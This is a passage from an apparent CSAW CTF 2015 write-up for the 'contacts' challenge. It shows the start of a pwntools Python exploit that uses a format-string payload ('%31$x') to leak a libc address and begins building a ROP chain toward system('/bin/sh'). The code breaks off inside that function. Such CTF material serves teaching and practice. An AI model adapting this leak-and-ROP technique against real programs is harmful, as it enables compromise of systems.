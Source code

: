 Which the [following exploit](solution/contacts_exploit.py) achieves:

```python
#!/usr/bin/env python
#
# CSAWCTF 2015
#
# @a: Smoke Leet Everyday
# @u: https://github.com/smokeleeteveryday
#

import re
from pwn import *
from struct import pack
from math import floor

def do_infoleak(h, pointer_offset): 
  name = "infoleak"
  phone = "1337"
  desc_len = "8192"
  desc = "%31$x"

  # Create new contact
  h.sendline("1")

  msg = h.recvuntil('Name: ')
  print msg

  h.sendline(name)

  msg = h.recvuntil('Enter Phone No: ')
  print msg

  h.sendline(phone)

  msg = h.recvuntil('Length of description: ')
  print msg

  h.sendline(desc_len)

  msg = h.recv(1024)
  print msg

  h.sendline(desc)

  msg = h.recvuntil('>>> ')
  print msg

  # Display contacts
  h.sendline("4")

  msg = h.recvuntil('>>> ')
  print msg

  # Extract leaked pointers
  libc_ptr = re.findall('.*Description:\s(.*?)\n.*', msg)[0]
  return (int(libc_ptr, 16) - pointer_offset)

def set_ropchain(h, system_addr, binsh_addr): 
  name = "ropchain"
  phone = "1337"
  # Need enough space on heap since it's going to be treated as stack during ROP sploiting
  desc_len = "8192"

```